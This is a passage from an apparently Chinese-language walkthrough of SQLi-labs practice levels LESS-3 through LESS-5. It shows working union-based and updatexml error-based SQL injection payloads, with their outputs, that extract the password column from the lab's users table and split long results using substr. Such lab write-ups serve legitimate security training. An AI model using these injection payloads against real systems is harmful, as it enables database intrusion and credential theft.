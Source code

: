 可以得到：

```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4</font>
```

## LESS-4

在LESS-3的上面改了一下，把单引号改成双引号就可以过了：

`id=0")/**/union/**/select/**/1,2,group_concat(distinct/**/password)from/**/users%23`

可以得到：

```html
<font size='5' color= '#99FF00'>Your Login name:2<br>Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4</font>
```

## LESS-5

简单测试注入：

`id=0'/**/or/**/1=1%23`

可以发现：

```html
<font size="5" color="#FFFF00">You are in...........<br></font>
```

发现没有回显，不要注释符，回显错误如下：

```html
<font size="3" color="#FFFF00">You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1</br></font>
```

能正常报错，那么直接利用报错注入，直接使用updatexml进行报错注入：

`id=0'/**/or/**/updatexml(2,concat(0x7e,(select/**/group_concat(distinct/**/password)from/**/users)),0)%23`

可以得到：

```html
<font size="3" color="#FFFF00">XPATH syntax error: '~Dumb,I-kill-you,p@ssword,crappy'</br></font>
```

发现不齐，缺了数据，使用substr进行分割，经计算，每次能带出31个字符，于是：

`id=0'/**/or/**/updatexml(2,concat(0x7e,substr((select/**/group_concat(distinct/**/password)from/**/users),32,31)),0)%23`

得到：

```html
<font size="3" color="#FFFF00">XPATH syntax error: '~,stupidity,genious,mob!le,admin'</br></font>
```

